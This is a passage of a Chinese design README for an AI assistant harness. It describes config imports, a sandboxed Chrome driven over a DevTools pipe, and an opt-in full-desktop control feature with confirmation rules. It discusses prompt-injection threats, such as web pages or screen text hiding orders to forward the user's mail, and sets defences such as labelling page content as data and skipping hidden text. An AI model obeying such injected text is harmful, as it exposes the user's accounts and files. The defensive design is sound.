| [Kiro](https://kiro.dev/docs/mcp/configuration/) | `~/.kiro/settings/mcp.json`、`.kiro/settings/mcp.json` | `~/.kiro/skills`、`.kiro/skills` | `~/.kiro/agents`、`.kiro/agents`（JSON 或 Markdown） |
| [Amazon Q Developer](https://docs.aws.amazon.com/amazonq/latest/qdeveloper-ug/command-line-mcp-configuration.html) | `~/.aws/amazonq/mcp.json`、`.amazonq/mcp.json` | | `~/.aws/amazonq/cli-agents`、`.amazonq/cli-agents`（JSON） |
| [Junie](https://junie.jetbrains.com/docs/junie-cli-mcp-configuration.html) | `~/.junie/mcp/mcp.json`、`.junie/mcp/mcp.json` | `~/.junie/skills`、`.junie/skills` | |
| [Factory](https://docs.factory.com/cli/configuration/custom-droids) | | `~/.factory/skills`、`.factory/skills` | `~/.factory/droids`、`.factory/droids` |
| [Amp](https://ampcode.com/docs/customize/skills) | | `~/.config/amp/skills`、`~/.config/agents/skills` | |
| [Warp](https://docs.warp.dev/agents/capabilities/mcp) | `~/.warp/.mcp.json`、`.warp/.mcp.json`、`~/.agents/.mcp.json`、`.agents/.mcp.json` | | |
| [LM Studio](https://lmstudio.ai/docs/app/mcp) | `~/.lmstudio/mcp.json` | | |

打开的是你点它的那一页。顶上是总览：找到了东西的工具一个一行，后面写着三样各有几个；点这一样的数字，滚到那个工具的那一组，
点另外两样，换到那一页去导入。每一组的标题写着哪个工具、哪一级（你自己的还是这个项目的）、哪个文件；读不出来的文件写明原因
（比如"不是合法的 JSON：第 4 行第 3 列"），别的文件照常列出来。最下面收着一栏"没找到的"：这一样智狐认得、但没有找到的工具，
去过哪些地方，和它们的官方文档。

各家的写法不一样，所以检查之前（检查的规矩和你自己添加时一样），[harness/imports/](harness/imports/) 先把它换成智狐的写法，
换了什么写在那一项上：

- **MCP**：VS Code 的 `servers`、Zed 的 `context_servers`、Codex 的 TOML、Goose 的 YAML `extensions`、Continue 的 YAML 列表、
  OpenCode 写成列表的 `command`，都换成 Claude Desktop 的写法。各家引用环境变量的写法（`${env:X}`、`$X`、`{env:X}`、
  `${{ secrets.X }}`、Codex 的 `bearer_token_env_var`、Goose 的 `env_keys`）换成智狐的 `${X}`，启动时从环境变量里取；
  `${workspaceFolder}` 这类编辑器的变量直接填好；只有那个工具做得到的（VS Code 的 `${input:…}`、`envFile`）标出来，
  请你导入后编辑。别的工具里"不用问"的设置（`autoApprove`、`alwaysAllow`、`trust`，以及克隆来的 `.mcp.json` 里智狐自己的
  `approval`）一律不搬：导入的服务器每次调用前都先问你。智狐用不上的设置列成"没有搬过来"，不悄悄留在配置里。
  引用了智狐自己的模型密钥（`${ANTHROPIC_API_KEY}`）的服务器列出来但勾不上，导入时服务器也会再拒绝一次。
- **Skill** 各家都是同一种带 `SKILL.md` 的文件夹，复制时和上传一样当作不可信的：里面的链接、隐藏文件不要，路径、大小、个数都有上限。
- **Agent**：Claude Code 的文件原样复制。别家的只写智狐用得上的几项：工具名换成智狐的叫法（`execute`、`run_shell_command` → `Bash`，
  `read_file` → `Read`，`服务器/*`、`@服务器` → `mcp__服务器`……），智狐没有的工具不搬，"只读""不许执行命令"照样不放开，
  认不出来的模型改成"和叫它的那一方一样"，Codex 的 `developer_instructions`、Kiro 的 `prompt`（包括指向旁边文件的 `file://`）
  成为正文。换过来的 Agent 能用的工具只会更少，不会更多。

不打开这一页什么都不读，什么都不运行，除了智狐自己的数据目录什么都不写。页面送回来的只有"哪个来源的哪个名字"，
导入时服务器重新读一遍文件。环境变量和请求头的值不会发到浏览器，只有最后 4 位。加一个工具，是在
[registry.py](harness/imports/registry.py) 里写一个函数；它的写法是新的，再在 [mcp_shapes.py](harness/imports/mcp_shapes.py)
或 [agent_formats.py](harness/imports/agent_formats.py) 里加一种读法。YAML 用的是一个小而安全的子集解析器
（[yaml_lite.py](harness/imports/yaml_lite.py)），没有加新的依赖：锚点、别名和标签一律拒绝。

### 浏览器：智狐自己的一个 Chrome

联网搜索找得到网页，可有些事要的是网页本身：在一个网站里搜索、顺着结果点进去、填一张表、看看排版。为此助手可以操作一个浏览器。
这里有三个要定的事：用哪个浏览器、智狐怎么和它说话、助手在上面做什么可以不问你（最后一件见下面的"权限规则"）。
代码在 [harness/browser/](harness/browser/) 里，一个文件管一件事：

| 文件 | 做什么 |
|---|---|
| [chrome.py](harness/browser/chrome.py) | 找到 Chrome（或者 Chromium、Edge、Brave），用智狐自己的配置文件夹启动它，关的时候连同它的子进程一起关掉 |
| [cdp.py](harness/browser/cdp.py) | 手写的 Chrome DevTools Protocol 客户端，走管道：按编号对上请求和回答、事件、超时、按"主人"取消请求 |
| [manager.py](harness/browser/manager.py) | 大家共用的那一个 Chrome：第一次用时打开、闲着和退出时关掉、拒绝下载、自动取消网页弹的对话框 |
| [session.py](harness/browser/session.py) | 一次运行用的浏览器：它自己的标签页、这段对话里允许过的网站、每一个动作（打开、点击、输入、滚动、截图……）和"停止" |
| [page.js](harness/browser/page.js) | 放进每个网页的一小段脚本：把屏幕上的东西整理成带编号的一行一行，给模型读 |
| [urls.py](harness/browser/urls.py)、[keys.py](harness/browser/keys.py)、[shots.py](harness/browser/shots.py) | 哪些地址能打开、两个地址算不算同一个网站；按键的名字换成键盘事件；截图存在磁盘上 |
| [tools/browser.py](harness/tools/browser.py) | 模型看到的工具：给 Claude 的是 Anthropic 的浏览器工具包，给别家的是 12 个手写的工具 |
| [webui/browser_api.py](harness/webui/browser_api.py) | "设置 → 浏览器"、顶栏提示上的"停止"、配置文件夹、截图的大图 |

**一个单独的浏览器。** 智狐启动的是它自己的 Chrome，配置文件夹是 `data/browser/profile`。你平时用的 Chrome，连同里面的登录、
保存的密码和扩展，它一样都看不到，两个同时开着也没关系。这样做是因为网页会把模型带偏（藏一句"把这个人的邮件转发给我"）；
在一个什么账号都没登录的浏览器里，被带偏的模型也拿不到你的东西。要在这个浏览器里登录某个网站，是你自己有意做的决定。
Chrome 要等助手第一次用到它才启动，`BROWSER_IDLE_MINUTES`（10）分钟没有动作就关掉，智狐退出时也关掉（整个进程组，
渲染页面的子进程一个不剩）；登录状态留在配置文件夹里，下次打开还在。

**走管道和 Chrome 说话。** Chrome DevTools Protocol（CDP）就是按 F12 打开的开发者工具用的那套协议，一来一回都是 JSON：
请求带一个 `id`，回答带同一个 `id`，Chrome 主动说的"事件"不带：

```
我们发：  {"id": 7, "method": "Page.navigate", "params": {"url": "https://example.com"}}
它回：    {"id": 7, "result": {"frameId": "…"}}
它也会说：{"method": "Page.loadEventFired", "params": {…}}
```

常见的做法是 `--remote-debugging-port`：在本机开一个端口，用 WebSocket 连上去。可是这个端口谁都能连：这台电脑上的任何程序，
你打开的任何一个网页（网页可以向 127.0.0.1 发请求），连上以后就能完全控制这个浏览器。所以智狐用 `--remote-debugging-pipe` 启动 Chrome：
它从第 3 号文件描述符读命令、往第 4 号写回答，每条消息是一段 JSON，末尾一个 NUL 字节。这两个描述符是智狐启动它时亲手交过去的
（用 `os.posix_spawn`：`subprocess` 没法指定"放在 3 号和 4 号上"），没有端口，别人无从连起。还有一个好处：智狐哪怕是被强行杀掉，
管道的这一头一关，Chrome 读到结尾就自己退出，不会留下没人管的浏览器。一个后台线程专门读：回答交给等着那个编号的人，事件交给订阅了它的人。
每个标签页通过同一条连接上的一个 sessionId 来操作（"flat"模式）。每个请求都有超时，也都记在某个"主人"名下，
所以"停止"只取消这一次运行的请求，别人的不碰。

**Windows 上**没有"第几号描述符"可以交过去。Chrome 为此另有一个参数 `--remote-debugging-io-pipes=读,写`，两个数是管道的句柄。
智狐开两根管道，只把给 Chrome 的那两头设成可以继承，把它们的句柄写进这个参数，再用 `STARTUPINFO` 的句柄清单启动 Chrome，
清单里只有这两个（加上标准输入输出），智狐开着的别的句柄一个都不会漏给浏览器。还是同一根管道、同一套协议，照样没有端口。
Windows 上也不用端口，理由和别处一样：端口开着的时候，你账号下的任何程序、任何网页都能操纵这个浏览器。
Chrome 和它所有的子进程放在一个 Windows 作业对象里，关掉它（或者智狐崩溃退出）就一个不剩地结束，这是 macOS、Linux 上进程组在 Windows 上的对应。
没装 Chrome 时，智狐用每台 Windows 10、11 都有的 Microsoft Edge。

**读网页：带编号的一行一行。** 截图很费 token，模型对着一张图也点不准，所以读网页主要靠文字。`page.js` 运行在一个"隔离世界"
（isolated world）里：和网页共用同一个 DOM，但不共用 JavaScript，所以网页看不到它记下的东西，也换不掉它用的函数。
它把显示出来的页面走一遍，每个有意义的元素写一行，能操作的元素给一个编号：

```
banner
  link "雨伞" [ref_1] → /umbrellas
  searchbox "搜索商品" [ref_4]
  button "搜索" [ref_5]
heading "折叠雨伞" [ref_6]
```

模型回一句 `left_click {"target": {"type": "ref", "ref": "ref_4"}}`，智狐找到这个元素，量出它中心点的位置，在那里发出真正的鼠标事件
（`Input.dispatchMouseEvent`），网页收到的就是一次普通的点击。也可以给窗口里的坐标，用在文字里看不出来的地方（画布、别的网站嵌进来的框）。
有三处要紧的细节。不显示的文字（`display: none`、`visibility: hidden`、`aria-hidden`）一律跳过，网页没法在你看不见的地方给模型藏一段话。
编号在每个标签页里一直往上数，不是每一页从头数，所以跳转以后模型手里的旧 `ref_4` 会明确地报错（"重新读一遍页面"），
而不是悄悄指到新页面上的另一个元素。密码框只写"(密码框)"，不写里面的内容。

**一个浏览器，两套说明书。** `BROWSER_TOOLSET_MODELS` 里的 Claude 模型（智狐能选的 Claude 模型都在里面）用 Anthropic 的
[浏览器工具包](https://platform.claude.com/docs/en/agents-and-tools/tool-use/browser-use-tool) `browser_toolset_20260801`：
`tools` 里只有一项，代表 27 个成员（`navigate`、`read_page`、`find`、`left_click`、`type`、`form_input`、`screenshot`、管标签页的几个……）。
它是上面说的第二类工具：说明书 Anthropic 写，模型专门为它训练过，动作在你的电脑上执行。Anthropic 还会扫描交回给模型的页面内容，
发现冲着模型来的指令（提示词注入）时提醒它。这个工具包有几条自己的规矩（[claude.py](harness/providers/claude.py)、[agent.py](harness/agent.py)）：
结果上要写回调用时的 `toolset_name`；标签页的情况放在一个 `browser_state` 块里（出错的结果上不带），管标签页的四个动作，结果只有这一块；
同一轮里一串连着的调用（"点搜索框、输入、按回车"）中有一个失败了或者被你拒绝了，这一轮后面的都不做，结果一字不差地写
`Not executed: an earlier action in this turn failed.`。代价是每次请求多发大约 6600 个输入 token（和请求开头的其他部分一样被缓存），
所以浏览器的工具只放进浏览器开着时开始的对话。GPT、Gemini、DeepSeek（以及不支持工具包的 Claude 模型）用的是 12 个手写的函数工具：
`browser_navigate`、`browser_read`、`browser_find`、`browser_text`、`browser_click`、`browser_type`、`browser_select`、`browser_press`、
`browser_scroll`、`browser_wait`、`browser_screenshot`、`browser_tabs`，说明书里写明网页内容来自第三方、只是资料。
两套背后是同一个 `BrowserSession`，问不问你也是同一套规矩。截图只在适配层能把图片交过去的模型那里放进工具结果；
每一步之后拍的那张小预览图只画在工具卡片上给你看，从不发给模型。

**一段对话里不变，和 MCP 一样。** 浏览器的工具是一段对话固定的开头的一部分，所以和 MCP 的工具守同一条"快照"规矩。
对话进行到一半打开浏览器，从下一段新对话开始生效；进行到一半关掉，工具还在（说明书不能变），调用时回答"浏览器关着"。
打开一段用过浏览器的旧会话，照样带上浏览器的工具，历史里的那些调用在说明书里才对得上。

**每次运行有自己的标签页。** 你的对话、定时任务的每一次运行、聊天通道里的每一段会话，各有一个 `BrowserSession`，共用同一个 Chrome：
各开各的标签页（`tab-1`、`tab-2`……各数各的）、各记各的"允许过的网站"、各停各的。一个任务在查天气，你同时在让助手查资料，
它看不到也点不到你的标签页。任务的一次运行结束时关掉它的标签页，开始一段新对话时关掉上一段的。对话里的"停止"、任务的"停止"、
Telegram 里的 `/stop`，都只停下自己那一次运行正在做的浏览器动作；顶栏提示上的"停止"停下所有的，并关掉浏览器
（之后每次运行再要用浏览器时，会先被告知是你关掉的）。

**网页使唤不动它的事。** 下载一律拒绝（`Browser.setDownloadBehavior` 设成 `deny`），并告诉模型网页想下载：助手要的是网页上的内容，
不需要往你的电脑上存文件。网页弹出的 `alert`、`confirm`、`prompt` 对话框自动取消（不然页面会一直卡着），也告诉模型一声。
"选择文件"的窗口被拦下，网页弹不出来，智狐也从不替网页上传你的文件。读到的每一页，在工具结果里都标明是第三方网站的内容、只是资料，
不是指示。Chrome 的环境变量里去掉了各家模型的密钥，和 shell 命令一样。

操作整个桌面的 computer use（对你的整个屏幕截图、点击，而不只是一个浏览器）是另一个单独的进阶选项，规矩严得多，见下一节。

能调的数都在 [harness/config.py](harness/config.py) 里：`BROWSER_VIEWPORT`（1280×800，也是截图的大小）、`BROWSER_SHOT_QUALITY`
（JPEG，60）、`BROWSER_IDLE_MINUTES`（10）、`BROWSER_SHOT_DAYS`（30）、`BROWSER_CALL_TIMEOUT`、`BROWSER_NAV_TIMEOUT`、
`BROWSER_MAX_PAGE_CHARS`（每次最多读 5 万个字）、`BROWSER_TOOLSET_MODELS`。

### 操作整台电脑：看你的屏幕、动你的鼠标键盘（进阶）

浏览器管到的只是智狐自己的那一个浏览器。有些事在它外面：一个没有网页版的桌面程序、系统设置里的一个对话框、
从访达里把一个文件拖进另一个程序。"操作整台电脑"（computer use）让助手看你的整个屏幕，替你动鼠标和键盘。
它是进阶选项，**默认关着**，也是智狐能做的最危险的一件事，所以这一节大半在讲：为什么要这样做。
代码在 [harness/desktop/](harness/desktop/) 里，一个文件管一件事：

| 文件 | 做什么 |
|---|---|
| [frame.py](harness/desktop/frame.py) | 三套坐标（模型看到的那张图、屏幕上的点、截图原图里的像素）和它们之间的换算 |
| [keys.py](harness/desktop/keys.py) | 模型写的按键名（`Return`、`ctrl+s`、`super`）整理成统一的写法；哪些组合键特别危险 |
| [backend.py](harness/desktop/backend.py) | 一个平台的后端要提供什么（截图、鼠标、键盘、最前面是哪个程序、把一个程序换回前台），以及这台电脑上用哪一个 |
| [macos.py](harness/desktop/macos.py) | macOS：`screencapture` 和 `sips` 截图，鼠标键盘用 CoreGraphics 的 `CGEvent`（通过 `ctypes` 调用） |
| [x11.py](harness/desktop/x11.py) | Linux 的 X11 桌面：`xdotool` 发鼠标键盘事件，ImageMagick（`import`、`convert`）截图 |
| [session.py](harness/desktop/session.py) | 一次运行的电脑操作：坐标换算、动手之前最后看一眼、这段对话里的"截图不再问"和"点击、打字不再问"（`trust_screenshots`、`trust_actions`）、停止 |
| [manager.py](harness/desktop/manager.py) | 大家共用的那一个屏幕：同一时间只让一个运行操作；顶栏的提示；设置 |
| [tools/computer.py](harness/tools/computer.py) | 模型看到的工具：给 Claude 的是 Anthropic 的电脑工具包，给 GPT、Gemini 的是 9 个手写的替身 |
| [webui/computer_api.py](harness/webui/computer_api.py) | "设置 → 操作整台电脑"、顶栏提示上的"停止"、这段对话里不再问（截图，或者点击和打字）、打开系统设置、截图的大图 |

**循环：截图 → 动作 → 截图。** 模型看不到你的屏幕，也碰不到你的鼠标。它能做的只有一件事：看一张图，说出下一步做什么。
所以循环是这样的：

```
模型说 screenshot                              → 智狐截一张屏幕的图，缩小以后交给它
模型说 left_click {"coordinate": [665, 432]}   → 坐标是"那张图上"的像素：智狐换算一下，先问你，再点
模型说 screenshot                              → 点对了没有？
……一直到它觉得做完了
```

这和智狐别处用的是同一个 agent 循环，变的只是"看"和"碰"的对象。Claude 常常在一次回复里发一小串（点一下、打字、截图）：
按顺序做，每一步都问你（除非你放宽了，见下面）；其中一个失败了或者被你拒绝了，这一串后面的都不做，结果一字不差地写
`Not executed: an earlier computer action in this turn failed.`（这是电脑工具包自己的那句话，比浏览器的多一个词）。
给别家模型的替身工具也守这条规矩：你拒绝了"点这个输入框"，后面的"打字"不会照样打下去、打进不知道什么地方。

**坐标：三套。** 截图交给模型之前要先缩小：图片有大小的上限，像素越多 token 越多。智狐把它缩到长边不超过 1568 像素、
总共不超过 115 万像素（Anthropic 文档例子里用的就是这两个数，每一家都收得下）。模型说的坐标按"那张缩小的图"算，
所以点击之前要乘回去。Mac 的 Retina 屏幕还多一层：发鼠标事件用的是"点"，而截图原图里一个点是 2×2 个像素。
拿一台 1512×982 点的 MacBook 来说：

```
屏幕：        1512 × 982 点      （截图原图是 3024 × 1964 像素）
模型看到的：  1330 × 864         （缩小 0.88 倍；按点算，所以 1280×800 的屏幕原样交出去、坐标一比一）
模型说：      (665, 432)
→ 点：        (665 × 1512/1330, 432 × 982/864) = (756, 491)   ← 鼠标事件发到这里
→ 像素：      (1512, 982)                                      ← 原图里的同一个位置（×2）
```

x 和 y 各算各的比例：缩小以后的宽高要取整（1330.65 → 1330），两边的比例差一点点，合在一起算的话，点到屏幕右下角时会差出一两个点。
换算错了，每一下都会偏到同一个方向，这正是 Anthropic 文档里排查"点不准"那张表上的第一种情况。`zoom` 把一块区域按原图的分辨率截下来，
放大到正好装进平时截图的大小（最多放大 4 倍），但坐标仍然按整张截图算。对话进行到一半屏幕的大小变了（换了分辨率、接了一块屏幕），
按旧图说的坐标会被拒绝，请模型先截一张新图。只用主屏幕。

**为什么比浏览器危险得多。** 三点不同：

- 浏览器是智狐自己的那一个，什么账号都没登录；整台电脑上是*你自己的*一切：邮件、聊天、密码管理器、网银。
- 屏幕上的任何文字都可能是冲着模型来的：一封邮件、一个网页、一条弹出来的通知。模型被它带偏的话，能点、能打字的地方就是你的整台电脑。
- 在浏览器里，智狐读得到网页的结构，看得出一个按钮会不会提交表单；桌面上只有像素，智狐没法替你判断一下点击会发生什么，只有你能。

Anthropic 的文档建议在一台专用的、权限最小的虚拟机或者容器里使用 computer use，也要求程序先讲清楚风险、征得用户同意。这两件智狐都做了。

**安全上的安排。**

- **默认关着，打开要有意为之。** 在设置里打开它，先会在原地展开一段风险说明，并建议你在虚拟机或者一个单独的用户账号里运行智狐；
  勾上"我明白这些风险"才算数。服务器那边也是：不带 `acknowledge: true` 就不让打开。
- **默认每一步都问。** 选"每次确认""自动允许只读命令""自动允许改文件"时，操作电脑的每一步都问：这几档放开的是命令和文件，
  不是你的屏幕。只有 `wait` 和 `cursor_position` 不问：它们什么都不看、什么都不碰。
- **放不放宽由你定，按一段对话，而且只在有人看着的地方。** 每一步都问听起来最安全，可模型几乎每做一下都要截一张图，
  一件简单的事就是几十下点击；问得这么勤，人就会不看就点"允许"，那这一问就什么都护不住了。所以网页对话里的确认卡片上有两个分开的选择：
  截图、放大的卡片上是"允许，这段对话里截图不再问"；点击（左键、右键、中键都算，双击、三击也算）、拖动、移动鼠标、按下或松开鼠标键、滚动、
  打字、按键、按住一个键的卡片上是"允许，这段对话里的点击、打字不再问"，按钮下面写清楚这意味着什么：从现在起点击和打字不再问你，
  屏幕上的任何文字都可能把模型带偏，危险的组合键照样问，顶上的"停止"一直都在。每一项只记在这段对话自己的 `DesktopSession` 上
  （`trust_screenshots`、`trust_actions`），因为你是为眼前看着的这一件事放的宽，不是为以后的每一件事：换一段新对话就从头再问。
  在这段对话里干活的子 Agent 和它共用同一个屏幕的 session，所以对它们也算数。终端界面里没有按钮，只有"全部自动允许"能放宽。
- **"全部自动允许"就是全部。** 哪里实际用的是"全部自动允许"（对话里选的那一档、定时任务自己的那一档、聊天通道的那一档），
  操作电脑的每一步（截图和动作都算）就不问直接做。这一档是你看过提醒以后有意选的，智狐在这里不再替你改主意。
  定时任务和聊天通道照样要先打开它们自己的那个开关，才拿得到操作电脑的工具（见下面）。
- **永远不放宽的。** 下面这几条在任何一档、不管这段对话里选过什么都算数，因为它们防的是一下就撤不回来的事，
  或者不再问你以后就没人盯着的事：
  - 危险的组合键（[keys.py](harness/desktop/keys.py) 里的 `DANGEROUS`，按系统分开）每次都问，卡片上带着警告，没有"不再问"的按钮，
    也没有"不想每次都问？"的链接：Mac 上的 ⌘Q、⌘⌥Esc、⌘⇧Q（退出登录）、⌃⌘Q（锁屏）、⌘W、⌘⌫ 和 ⌘⇧⌫（访达里移到废纸篓、清倒废纸篓）；
    Linux 上的 Alt+F4、Ctrl+Alt+Backspace、Ctrl+Q、Ctrl+W、Super+L；哪个系统上都算的 Ctrl+Alt+Del；还有别的。
    按一下就可能丢掉没保存的内容、退出登录、清空废纸篓。
  - 不许碰的程序照样不问、直接拒绝（见下面）：那张名单是你自己划的线。
  - 动手之前最后看一眼（见下面）照样做：字只打进问你时最前面的那个程序，点击的位置上换了一个窗口就不点。没人一步步批准的时候，这一条更要紧。
  - 顶栏上的"智狐正在控制这台电脑"和它的"停止"按钮一直都在。
  - 没问就做了的每一步都有记录：对话里那张工具卡片上标着"自动允许"（因为这段对话里选过"不再问"才没问的，标"自动允许（这段对话里不再问）"）。
- **卡片上写清楚在哪儿。** 截图上的坐标和屏幕上的位置、点的地方是哪个程序的窗口（macOS）、字会打进哪个程序、按的是什么键、打的是什么字，
  危险的组合键还带着警告。要打的字里有换行，也会提醒一句：在很多程序里换行就是按回车（发送、提交）。
- **动手之前最后看一眼。** 你在智狐的页面上点"允许"，浏览器就到了最前面，接下来打的字会进到智狐自己的页面里。
  所以打字、按键（`type`、`key`、`hold_key`）之前，先把问你时最前面的那个程序换回来，换不回来就不做。
  点击之前看一眼那个位置上还是不是同一个程序的窗口：被别的东西挡住了（多半是智狐的页面，你一点"允许"它就到了最前面），
  这一步就不做，并请模型先截一张新图。所以把智狐的页面和要操作的程序并排放好，不要重叠。
- **不许碰的程序**（可选）。在设置里写下一些程序的名字：它们在最前面（macOS 上还包括点击的位置在它的窗口上）的时候，
  智狐不截图、也不操作，也不问你。按程序的名字认，不分大小写（Linux 上按当前窗口的类名和标题）。
  被挡在后面、只露出一部分的不许碰的程序，照样可能被截进图里。
- **定时任务和聊天通道**，只有你另外打开"允许定时任务和聊天通道使用"（默认关着）才能用；打开了，每一步按这次运行自己的那一档来：
  走这次运行自己的确认途径（任务的卡片，或者聊天里）等你批准，除非这个任务、这个通道选的是"全部自动允许"。
  它们永远没有"这段对话里不再问"：任务半夜三点自己跑、你在手机上的聊天里发一句话的时候，不一定有人看着屏幕，
  所以它们的屏幕 session 不算"有人看着"，卡片上没有这个按钮，服务器也没有能替它们打开的接口。
- **一个屏幕，同一时间一个运行。** 第一个动手的运行把屏幕"占住"，到它这一轮（或者这次任务）结束才让出来；
  别的运行这时要操作，会收到一句"电脑正被……用着"。浏览器能给每个运行各开各的标签页，屏幕却没法分成几份。
- **停止。** 有运行占着屏幕的时候，顶栏上一直显示"智狐正在控制这台电脑"，旁边一个"停止"按钮：正在做的那一步马上停下
  （按住的键、拖到一半的鼠标照样会松开），这一轮里这个运行不能再动电脑。`left_mouse_down` 按下没松开的鼠标键，这一轮结束时替它松开。
- **每一步都有记录。** 每个动作是一张工具卡片，带着做完之后截的一张小图：只画给你看，从不发给模型。
  大图存在 `data/desktop/shots/` 里，保留 `DESKTOP_SHOT_DAYS`（7）天，比浏览器的 30 天短：整个屏幕的图什么都可能拍进去。
- 第一张截图的结果里还会告诉模型这是什么系统（macOS 上快捷键用 ⌘），以及不要去点智狐自己的页面、不要改智狐的设置。
  这要靠模型听话；真正护着你的，是这样的点击要问你，除非你选了不再问，而这正是你选的时候卡片上讲明的那个风险。

**平台。**

- **macOS。** 截图用 `screencapture -x -m`（不出声、只截主屏幕），缩小和转成 JPEG 用 `sips`；鼠标键盘是 CoreGraphics 的 `CGEvent`，
  用 `ctypes` 直接调用，所以什么都不用装。（滚动用 `CGEventCreateScrollWheelEvent2`：旧的那个函数参数个数不定，
  `ctypes` 在 Apple 芯片上传不对。）哪个窗口属于哪个程序，来自 `CGWindowListCopyWindowInfo`，程序的名字不需要任何权限。
  把一个程序换回前台：由进程号找到它的 `.app`，交给 `open`，和在程序坞里点它的图标一样；用 AppleScript 的 `activate`
  会要"自动化"的权限。要两样权限，由你自己去给：**屏幕录制**（系统设置 → 隐私与安全性 → 录屏与系统录音；旧一些的系统里叫"屏幕录制"）
  和**辅助功能**（系统设置 → 隐私与安全性 → 辅助功能）。权限是给"启动智狐的那个程序"的：终端、iTerm、VS Code……
  智狐只*看一眼*给了没有（`CGPreflightScreenCaptureAccess`、`AXIsProcessTrusted`，这两个函数不会弹出对话框），
  从不替你请求、也不改任何设置；没有截屏的权限时连试都不试（不然 `screencapture` 自己会弹出请求）。
  设置里写着每一样给了没有、要给哪个程序，还有一个"打开系统设置"按钮，只是打开那一页。授权以后重新启动智狐。
- **Linux 的 X11 桌面。** 要装 `xdotool` 和 ImageMagick（`import`、`convert` 或者 `magick`；截图也可以用 `scrot`）：
  `sudo apt install xdotool imagemagick`。智狐只看装了没有、告诉你缺什么，从不替你装。X11 上不需要什么权限：
  同一个桌面上的程序本来就能互相截图、发事件。不许碰的程序只按当前窗口认：`xdotool` 说不出屏幕上任意一点是哪个窗口。
- **Wayland：不支持。** Wayland 的设计就是不许一个程序截别的程序的图、替别的程序发键盘鼠标事件，而这正是操作电脑要做的
  （有 XWayland 也不行：`xdotool` 碰不到原生的 Wayland 窗口）。设置里会说明，并建议登录时选 X11（Xorg）桌面。
  Windows 上暂时不支持：设置和能力清单里写着"Windows 上暂时不支持操作整台电脑"。

**又是两套说明书。** `COMPUTER_TOOLSET_MODELS` 里的 Claude 模型用 Anthropic 的
[电脑工具包](https://platform.claude.com/docs/en/agents-and-tools/tool-use/computer-use-tool) `computer_toolset_20260801`：
已经正式发布，不用 beta 请求头；`tools` 里只有一项，没有名字，也不写屏幕多大（坐标一律按智狐交回去的截图算）。
它代表 17 个成员：`screenshot`、`zoom`、`left_click`、`right_click`、`middle_click`、`double_click`、`triple_click`、`left_click_drag`、
`mouse_move`、`left_mouse_down`、`left_mouse_up`、`cursor_position`、`scroll`、`type`、`key`、`hold_key`、`wait`。
模型按成员的名字调用，带着 `toolset_name: "computer"`；每个结果上都要写回这个 `toolset_name`，只有 `screenshot` 和 `zoom` 的结果里有图。
智狐能选的三个 Claude 模型（Opus 5.5、Sonnet 5.5、Fable 5.2）都支持它，而且在 Claude API 上只认这个工具包：旧的 `computer_20251124`
会被 400 拒绝。它让每次请求多发大约 4500 个输入 token（和请求开头的其他部分一样被缓存），所以它的工具只放进打开了操作电脑之后开始的对话。
GPT 和 Gemini 用的是 9 个手写的函数工具：`computer_screenshot`、`computer_zoom`、`computer_click`、`computer_move`、`computer_drag`、
`computer_scroll`、`computer_type`、`computer_key`、`computer_wait`。它们的截图作为图片，放在紧跟着工具结果的一条用户消息里交给模型：
Chat Completions 格式的工具结果只能是文字。这两家没有专门为这个训练过，点得没有 Claude 准。DeepSeek 根本收不了图片，所以拿不到这些工具
（它们都标着 `Tool.vision`，适配层不给收不了图片的那一家）：看不见截图的模型只能闭着眼睛乱点。设置里写着哪几家能用、怎么用。
不在名单里的 Claude 模型会拿到替身工具。

**一段对话里不变，每次运行各有一份。** 和浏览器的工具一样，操作电脑的工具是一段对话固定的开头的一部分。对话进行到一半打开它，
从下一段新对话开始生效；进行到一半关掉，工具还在（说明书不能变），正在做的那一步会停下，之后再调用回答"关着"。
打开一段用过它的旧会话，照样带上这些工具，历史里的调用才对得上。每次运行（你的对话、任务的一次运行、聊天通道里的一段会话）
各有一个 `DesktopSession`：各记各的"不再问"（只有网页上那段对话的 session 算"有人看着"，所以只有它拿得到）、各停各的、
各记各的"坐标按哪张截图算"。

**和浏览器共用的、各管各的。** 共用的：工具包和替身的写法（`Tool.toolset`、`member`、`stands_in_for`）、一段对话开始时拍下的工具快照、
每次运行一个 session、一串调用里前一个失败后面就不做、问你之前先看一眼这次调用要碰的是什么（`FactsTool`）、
截图大图的存法（`ShotStore`，另一个文件夹）和取大图的接口写法、"停止"的接法。各管各的：权限的规矩（严得多）、设置、
"一个屏幕同一时间一个运行"、更短的截图保留天数。

**网页上的接口**（[harness/webui/computer_api.py](harness/webui/computer_api.py)），和别的请求一样都要带着页面的口令：
`POST /api/computer/settings`（开关、定时任务和聊天通道、不许碰的程序；打开要带着 `acknowledge: true`，页面在你勾了那个框以后才发）、
`/api/computer/stop`（顶栏提示上的"停止"）、`/api/computer/trust`（`{"what": "screenshots" | "actions", "confirm": <编号>}`：
你正在看的这段对话里截图不再问，或者点击和打字不再问；只在操作电脑开着、网页对话正在等的正是这张确认卡片、而且这张卡片给的正是这个词的时候才管用，
所以这个选择总是连着一张你看过的卡片，也永远到不了定时任务和聊天通道）、
`/api/computer/untrust`（设置里的"恢复每一步都问"：收回这段对话里的两样"不再问"；只会更严，所以不用对着哪张卡片）、
`/api/computer/permission`（只在 macOS 上；页面只能给 `screen` 或 `input`，服务器打开系统设置里对应的那一页）、
`/api/computer/shot`（截图的大图：只收 64 个十六进制字符的编号，回答一律是 `image/jpeg`，带着 `Content-Disposition: attachment`、
`nosniff` 和 `Content-Security-Policy: default-src 'none'; sandbox`，和浏览器的一样）。

能调的数都在 [harness/config.py](harness/config.py) 里：`DESKTOP_MAX_EDGE`（1568）、`DESKTOP_MAX_PIXELS`（115 万）、
`DESKTOP_SHOT_QUALITY`（JPEG，70）、`DESKTOP_THUMB_WIDTH`（320）、`DESKTOP_SHOT_DAYS`（7）、`DESKTOP_SETTLE_SECONDS`（0.4）、
`DESKTOP_SCROLL_LINES`（3，macOS）、`DESKTOP_MAX_WAIT`（一次 `wait` 或 `hold_key` 最多 30 秒）、`DESKTOP_COMMAND_TIMEOUT`（15）、
`DESKTOP_MAX_TYPE_CHARS`（一次 `type` 最多 2000 个字）、`COMPUTER_TOOLSET_MODELS`。

### 权限规则

| 操作 | 处理 |
|---|---|
| 待办、记忆 | 直接执行（只动 `data/` 里助手自己的文件） |
| 读取启用着的 Skill | 直接执行（只能读，出不了那个 Skill 的文件夹）。Skill 里的脚本要用 `run_command` 运行，照样先问你 |
| 把任务交给子 Agent（`agent`） | 直接执行（它只是调用模型）。子 Agent 自己的每一次工具调用照样按这张表来问，档位跟着叫它的那一方，卡片上写着是哪个 Agent 在问 |
